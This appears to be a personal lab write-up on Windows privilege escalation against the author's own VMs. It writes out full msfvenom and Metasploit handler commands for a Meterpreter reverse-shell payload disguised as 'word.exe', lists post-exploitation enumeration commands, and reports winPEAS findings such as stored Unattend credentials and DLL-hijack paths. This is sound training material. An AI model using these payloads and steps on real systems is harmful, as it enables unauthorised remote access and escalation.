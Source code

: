 # Day 4 — Windows Privilege Escalation (Phase A: initial access via Meterpreter)  
**Author:** Shaafi (FROSTmatic-hub)  
**Objective:** Obtain an interactive shell on the Windows 10 lab VM and perform initial safe enumeration. Prepare for automated privilege escalation checks.

---

## Lab setup & safety
- Host: my laptop (home network)  
- Attacker: Kali VM — IP: `192.168.31.213` (bridged)  
- Target: Windows 10 VM — IP: `192.168.31.159` (bridged)  
- Snapshot created before exploit: `day4_before_exploit` (recommended)

> **Ethics:** All actions performed on owned lab VMs only. No external systems targeted.

---

## Access method (payload & handler)
- Payload generated with `msfvenom` (Windows Meterpreter EXE).  
- `msfconsole` handler configured:  
  - `LHOST = 192.168.31.213`  
  - `LPORT = 5555`

**Example used**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.213 LPORT=5555 -f exe -o word.exe
# Metasploit handler:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.213
set LPORT 5555
run
```
## Evidence (Meterpreter outputs)
- `getuid`: Server username: DESKTOP-TD9BS8A\test
- `sysinfo`: 
    Computer   : DESKTOP-TD9BS8A
    OS         : Windows 10 (10.0 Build 10240)
    Architecture: x64
    System Language: en_US
    Domain     : WORKGROUP
## Basic (non-destructive) enumeration commands executed
```bash
meterpreter> sysinfo
meterpreter> getuid
meterpreter> getprivs
meterpreter> ipconfig
meterpreter> ps
meterpreter> shell
C:\> whoami
C:\> whoami /priv
C:\> net localgroup administrators
C:\> sc queryex type= service
C:\> schtasks /query /fo LIST /v
#Saved output to output/day4_meterpreter_basic.txt
```

### Phase B — Automated enumeration with winPEAS (Windows 11)

**Tool used:** `winPEAS.exe` (uploaded to target and executed locally)  
**Executed by:** Shaafi (FROSTmatic-hub)

---

## Commands / procedure used
1. Uploaded `winPEAS.exe` to the target via Meterpreter / manual download.  
2. Executed winPEAS and saved readable output to a file on the VM:
```text
# executed on target VM
C:\Users\Public\winPEAS.exe > C:\Users\Public\winpeas_output.txt
```
3. transferred C:\Users\Public\winpeas_output.txt to attacker (Kali) and saved as:
`outputs/day4_winpeas.txt`

## Top findings from your `day4_winpeas.txt`:
1. Unattend.xml contains stored credentials / AutoLogon — winPEAS found an Unattend file with password entries (winPEAS redacted the password). This is a clear credential leakage indicator.
2. winPEAS reports the current user can Start/Stop multiple services (listed: `RmSvc`, `wcncsvc`, `BcastDVRUserService_43774`, `ConsentUxUserSvc_43774`, etc). That’s actionable for triggering behavior, and could become an escalation vector if a service runs something from a writable path.
3. `C:\Users\frost` has AllAccess for `frost` and `C:\Users\Public` is Interactive with `WriteData/CreateFiles`, good for uploading PoC artifacts.
4. `LSA Protection` and `CredentialGuard` not enabled.
5. OneDrive folder or other AppData paths flagged as “Possible DLL Hijacking folder.”

